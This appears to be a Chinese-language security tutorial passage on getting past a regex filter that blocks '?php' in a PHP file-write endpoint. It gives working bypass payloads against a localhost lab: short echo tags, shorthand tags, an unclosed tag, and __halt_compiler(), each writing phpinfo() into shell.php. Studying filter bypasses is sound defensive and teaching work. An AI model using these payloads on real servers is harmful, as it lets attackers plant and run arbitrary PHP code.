 ![image-20211124165132762](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-cc6bf5558125a9232f4a09188ad109749908e5f4.png)

**Bypass 1:**

这里采取直接怼`?php`硬匹配的规则,PHP支持多种标签表示代码的开始和结束

```php
1.Normal <?php ?>
2.Short open tag <?= ?>
3.Asp Tags  <% %>, <%= ?>
4.Scripting tag: <script language="php">
5.Shorthand tag:  <? ?>
```

第1种直接被正则ban了，第3种php7移除，第4种被ban且php7移除，第5种需要开启`short_open_tag`短标签配置，第五种用法用的还挺多。

所以这里我们可以这样来绕过`?php`的正则:

```php
http://localhost:8887/xss.php?file=shell.php&c=%3C?=phpinfo();?%3E
```

![image-20211124171257537](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-103956a209e4c1b770d66c230bbaf072366a6b3c.png)

如果支持短标签，也可以这样绕过:

```php
http://localhost:8887/xss.php?file=shell.php&c=%3C?%20phpinfo();?%3E
```

这里因为结尾使用了`?>`来闭合，所以垃圾字符并不会影响代码的正常执行，Bypass Successfully!

**Bypass 2:**

那么除了Bypass 1这种很容易想到的方式，还有没有其他方式呢?

继续观察第一层判断的正则写法

![image-20211124171640891](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-0f9b8b1e20a730a404658f1b23940964ab9975d7.png)

要实现匹配的话比如要同时存在`<`、`?php`、`>`这三个字符串，但是我们知道php是可以这样执行代码的,可以不需要最终的`?>`作为结束标志，而是执行到文件结束的标志。

```php
<?php phpinfo();
```

那么我们是不是可以尝试这样绕过呢，这样就会因为末尾缺少`>`,造成正则失配。

```php
http://localhost:8887/xss.php?file=shell.php&c=%3C?php%20phpinfo();//
```

![image-20211124172301165](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-e3df3df0232e2706d7a2a76e965da708a98ceb0d.png)

绕过确实可以绕过，但是因为末尾拼接了换行和非法的php语法字符串，导致语法错误。如果没有换行的话，可以采用注释来绕过，但是这里不行，换行会导致单行注释失败，然而针对这种情况，可以使用CTF以前常见的一种思路，来进行闭合PHP语句向下执行。

```php
http://localhost:8887/xss.php?file=shell.php&c=%3C?php%20phpinfo();__halt_compiler();
```
